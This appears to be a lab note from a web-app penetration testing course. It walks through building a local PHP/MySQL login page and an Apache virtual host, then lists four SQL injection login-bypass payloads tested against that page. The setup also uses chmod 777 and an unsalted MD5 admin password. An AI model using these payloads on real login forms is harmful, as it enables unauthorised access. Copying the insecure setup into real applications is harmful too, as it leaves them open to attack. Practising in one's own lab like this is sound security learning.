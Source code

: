 ## created login web page using php,mysql database.  
***
## steps to to follow

### Install apache2 and mysql server
 
    $ sudo apt-get install apache2
 
    $ sudo apt-get mysql-server

### Start apache2 and mysql server

    $ sudo service apache2 start

    $ sudo service mysql start

### Download the Code :

     git clone https://github.com/anir0y/verzeo-webapp 

### Here the verzeo-webapp folder path should be change to /var/www/html

#I changed webapp name as hemanthk

#Give permissions to hemanthk 

    $ chmod -R 777 hemanthk

#### connect to mysql

sudo mysql -u root

#### create new database

    $ create database hemanthdb;

    $ show databases;  #to check database

    $ use hemanthdb;   #to create tables &columns inside db

### Create table and insert in to database
                    
 CREATE TABLE IF NOT EXISTS `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(200) NOT NULL,
  `password` varchar(33) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;


#### Now insert columns in to table

 INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3');

### To see created clounmns inside the table

~ select * from users  

### create new user for mysql 

~ create user 'username'@'localhost' identified by 'password';

### Grant permissions to this user

~ grant all privileges on hemanthdb.* to 'username'@'localhost' identified by 'password';

### Now configuire your own credentials in dbconf.php

<?php
$con = new mysqli("127.0.0.1", "username", "password", "hemanthdb");
if ($con -> connect_error){
    die("Database Not Congigured Properly");
}
else{
   // echo ("DB connection is established sir");
}
?>

#Restart apache2 server

~sudo service apache2 restart

### checking localhost status of my created page 

           127.0.0.1/hemanthk/index.php/

![image2](https://github.com/hemanthkk67/pethub/blob/master/WAPT%20from%20Scratch/Day2(create%20login%20page)/Screenshot_2020-09-21_11-46-45.png)

***
## changing server name local host to virtual host
***
Go to sites-available directory it shows the default config files

$ cd /etc/apache2/sites-available/

000-default.conf  default-ssl.conf

#### Here we can copy  the '000-default.conf' to your required name

$cp 000-default.conf to hemanth.host.conf

#### Now edit the .conf file 

$ vim hemanth.host.conf   

        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html


#### (change server name  to your desired host name,give the path of the webapp name)

        ServerName hemanth.host
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/hemanthk/

#### mention the virtual host name in hosts 

In this case my host name is hemanth.host

$ vim /etc/hosts    
                    
127.0.0.1       localhost hemanth.host 
127.0.1.1       kali
127.0.0.1       mydvwa.com
#The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

### To enable site hosted with Apache ,use the 'a2ensite and reload apache2 

$a2ensite hemanth.host.conf

$systemctl reload apache2

#### check the host status

$ ping  hemanth.host

$curl hemanth.host -I
 
 now we can check localhost with virtual host name ie. 'hemanth.host' was succesfully loaded. 

***
### Bypassed login page tested with SQL Injection 
                      
                      admin' or 1=1#
                      admin' #
                      admin'/*
                      ' or 1=1--

 ![image1](https://github.com/hemanthkk67/pethub/blob/master/WAPT%20from%20Scratch/Day2(create%20login%20page)/Screenshot_2020-09-21_09-59-12.png)
